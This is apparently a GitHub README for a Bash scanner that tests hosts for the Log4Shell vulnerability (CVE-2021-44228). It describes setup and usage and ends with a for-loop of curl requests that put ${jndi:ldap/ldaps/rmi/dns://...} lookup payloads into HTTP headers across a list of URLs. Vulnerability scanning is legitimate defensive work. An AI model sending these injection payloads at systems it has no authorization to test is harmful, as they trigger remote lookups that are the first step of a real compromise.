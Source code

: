 # log4jScanner

 log4jScanner.sh is a BASH script to validate the vulnerability (CVE-2021-44228) of a given IP/URL.
 
 The script perfectly validates the existence of the vulnerability based on the *RETURN* traffic of 4 protocols ldap | ldaps | rmi | dns 
 
 Thus, the testing methedology is completely safe and non-invasive. 
 
 ## Understand The Attack Vector:
 
 First and foremost, I suggest reviewing the provided pcapng file in wireshark for a thorough understanding of the attack vector. 
 The pcapng file captured complete start-to-end traffic of a perfectly compromised target in lab environment.
 
 For your reference, 192.168.190.100 and 1389 are the attacker's IP/Port, and 192.168.190.44:8080 are the victim's (Tomcat) IP/Port. 
 
 ---
 **Note: Do not forget to add the visibility of SourcePort and DstinationPort in your wireshark setting's column preferences. 
 ---
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that Scanner-Return-Traffic-Port is reachable to the target. 

[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
```
## Download the script

```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]
```
## To automate testing of multiple IP/URLs, please feel free to modify the script accordingly.

```bash
Hint: While refering the log4jScanner.sh, consider modifying the script to include the following for-loop.

for i in $(cat /tmp/urls.txt); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````


